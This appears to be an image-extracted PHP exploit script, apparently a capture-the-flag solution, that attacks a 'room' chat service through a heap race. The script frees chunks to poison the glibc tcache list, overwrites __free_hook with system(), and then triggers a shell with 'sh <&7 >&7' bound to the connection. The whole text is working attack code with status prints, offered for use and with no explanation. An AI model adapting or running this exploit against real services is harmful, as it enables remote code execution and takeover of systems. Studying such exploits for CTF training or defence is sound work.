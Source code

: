 ```php

room_enter($t1, $idx2)(str_repeat("1", 0x18));
room_enter($t1, $idx3)(str_repeat("2", 0x18));

printf("[*] Prepare race\n");
$f = room_enter($t2, $idx1);


printf("[*] Delete rooms\n");
room_del($t1)($idx3); // 0x20: user2 -> NULL
room_del($t1)($idx1); // 0x20: victim -> user2 -> NULL
room_del($t1)($idx2); // 0x20: user1 -> victim -> user2 -> NULL


printf("[*] Recreate room\n");
$idx4 = room_new($t1)("room4");
assert($idx1 === $idx4);
room_enter($t1, $idx4)(str_repeat("3", 0x18));

printf("[*] Corrupt tcache list\n");
$f(pack("Q", $libc + FREE_HOOK));

printf("[*] Replace __free_hook\n");
room_enter($t1, $idx4)(str_repeat("4", 0x18));
room_enter($t1, $idx4)(pack("Q", $libc + SYSTEM));
printf("%X\n", $libc + FREE_HOOK);

printf("[*] Call system\n");
$idx = room_new($t1)("sh <&7 >&7");
room_del($t1); //($idx);
$t1->write("$idx\n");

printf("[!] PIPE\n");
$t2->pipe();
```
